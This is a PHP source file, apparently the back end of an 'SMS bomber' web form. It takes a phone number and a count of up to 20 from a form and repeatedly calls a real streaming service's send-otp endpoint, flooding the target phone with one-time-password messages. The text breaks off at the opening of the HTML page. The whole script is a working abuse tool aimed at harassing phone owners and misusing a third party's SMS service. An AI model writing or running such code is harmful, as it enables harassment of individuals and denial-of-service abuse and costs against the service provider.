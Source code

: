 <?php

session_start();

if(isset($_POST['submit'])){

	$number = $_POST['number'];

	$amount = $_POST['amount'];

	if($amount > 20 or $amount < 0){

		$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>Maximum amount is 20!</strong></div><br>';

	}else{

		for($i=0; $i < $amount; $i++){ 

			$url = "https://stage.bioscopelive.com/en/login/send-otp?phone=88".$number."&operator=bd-otp";

			$cSession = curl_init();

			curl_setopt($cSession,CURLOPT_URL,$url);

			curl_setopt($cSession,CURLOPT_RETURNTRANSFER,true);

			curl_setopt($cSession,CURLOPT_HEADER, false);

			$result = curl_exec($cSession);

			$http_code = curl_getinfo($cSession, CURLINFO_HTTP_CODE);

			curl_close($cSession);

		}

	}

	if(empty($http_code)){

		$http_code = "408";

	}

	if($http_code == 200){

		$_SESSION['alert'] = '<div class="alert alert-success alert-white rounded"><div class="icon"><i class="fa fa-check"></i></div><strong>Success!</strong></div><br>';

	}else{

		$_SESSION['alert'] = '<div class="alert alert-danger alert-white rounded"><div class="icon"><i class="fa fa-times-circle"></i></div><strong>Failed! Error code: '.$http_code.'</strong></div><br>';

	}

}

?>

<!DOCTYPE html>

<html>
